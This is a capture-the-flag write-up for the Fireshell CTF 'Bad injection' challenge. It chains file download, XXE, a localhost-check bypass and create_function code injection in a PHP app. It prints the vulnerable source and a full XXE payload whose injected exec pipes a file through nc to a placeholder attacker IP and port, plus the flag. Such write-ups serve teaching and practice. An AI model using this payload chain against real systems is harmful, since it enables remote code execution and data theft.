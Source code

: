 # Bad injection [ [Fireshell CTF] ](https://ctftime.org/event/727)

## Enumerating the challenge 

![index](https://i.imgur.com/vtZ1BiQ.png)

looking at the first 3 pages available **home**, **about** and **contact**, nothing useful is presented to us. But, by accessing the **List** page, we got the icon of an "image
corrupted" next to the loaded image.

By analyzing the source of this page, it is possible to see a passage of parameters:

```
download?file=files/test.txt&hash=293d05cb2ced82858519bdec71a0354b

```


this is the "corrupted image". With these parameters, we can read any file on the server. The requirements are:

* the file path is accurate
* the **hash** parameter must contain the md5 of the searched file.

![listagem-diretorios](https://i.imgur.com/kVAupWz.png)


## Exploration


By scanning the server, we can find the file **Routes.php** inside **/app/** directory, where some http request is required.


    ...
    ...
    ...
    
    Route::set('custom',function(){
      $handler = fopen('php://input','r');
      $data = stream_get_contents($handler);
      if(strlen($data) > 1){
        Custom::Test($data);
      }else{
        Custom::createView('Custom');
      }
    });
    ...
    ...
    ...


and the **Custom.php** file in **/app/Controllers/** .


    <br />
    <b>Notice</b>:  Undefined variable: type in <b>/app/Controllers/Download.php</b> on line <b>21</b><br />
    <?php
    
    class Custom extends Controller{
      public static function Test($string){
          $root = simplexml_load_string($string,'SimpleXMLElement',LIBXML_NOENT);
          $test = $root->name;
          echo $test;
      }
    
    }
    
     ?>


using XXE, we can also return files from the server.


![xxe](https://i.imgur.com/5aKPJVP.png)

## Localhost bypass


on the **Routes.php** file above mentioned, you can also see the following code:


```
Route::set('admin',function(){
  if(!isset($_REQUEST['rss']) && !isset($_REQUES['order'])){
    Admin::createView('Admin');
  }else{
    if($_SERVER['REMOTE_ADDR'] == '127.0.0.1' || $_SERVER['REMOTE_ADDR'] == '::1'){
      Admin::sort($_REQUEST['rss'],$_REQUEST['order']);
    }else{
     echo ";(";
    }
  }
})
```


This code verifies if that the request comes from the localhost within a conditional structure. If it does, then call Admin::sort.


Looking at the **Admin.php** file (also downloaded enum the server), we can see that Admin::sort contains:

    usort($data, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));


which gives us an obvious code injection.


---
that way, we need to use the XXE to bypass the verification of localhost and then make a request to /Admin, which returns us the remote code execution.

the payload:

    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "http://127.0.0.1/admin?rss=http://YOUR_IP/file.xml&order=link.file_get_contents('http://YOUR_IP/'.exec('cat'.chr(32).'/da0f72d5d79169971b62a479c34198e7'.chr(124).'/bin/nc'.chr(32).'YOUR_IP'.chr(32).'YOUR_PORT'))">
    ]>
    <root><name>&xxe;</name></root>

* the **file.xml** file must be uploaded to your server, with a valid rss with the route and adminsort for request.


the output:


![flag](https://i.imgur.com/FyBD4eq.png)


**Flag : f#{1_d0nt_kn0w_wh4t_i4m_d01ng}**


---

* [RSS W3schools](https://www.w3schools.com/xml/xml_rss.asp)
